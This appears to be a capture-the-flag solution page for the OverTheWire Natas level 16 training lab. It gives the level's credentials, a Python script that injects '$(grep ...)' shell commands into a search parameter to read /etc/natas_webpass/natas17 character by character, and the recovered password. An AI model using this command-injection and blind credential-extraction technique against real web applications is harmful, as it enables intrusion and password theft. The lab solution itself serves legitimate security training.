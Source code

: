 [Category:OverTheWire-Natas](/Category:OverTheWire-Natas "wikilink")

Username: natas16 WaIHEacj63wnNIBROHeqi3p9t0m5nhmh URL:
<http://natas16.natas.labs.overthewire.org>

`  `
`import requests`
`  `
`  `
`password = ''`
`possible = ''`
`  `
`for char in "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ":`
`    querystring = 'conceptual$(grep {} /etc/natas_webpass/natas17)'.format(str(char))`
`    print(querystring)`
`    r = requests.get('http://natas16.natas.labs.overthewire.org/?submit=Search&needle='+querystring, auth=('natas16','WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'))`
`    if("conceptually" not in r.text):`
`        possible += str(char)`
`        print(possible)`
`  `
`password = ""`
`for i in range(31):`
`    for char in possible:`
`        querystring = 'conceptual$(grep ^{} /etc/natas_webpass/natas17)'.format(password+str(char))`
`        print(querystring)`
`        r = requests.get('http://natas16.natas.labs.overthewire.org/?submit=Search&needle='+querystring, auth=('natas16','WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'))`
`        if("conceptually" not in r.text):`
`            password += str(char)`
`            print(password)`
`  `

8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw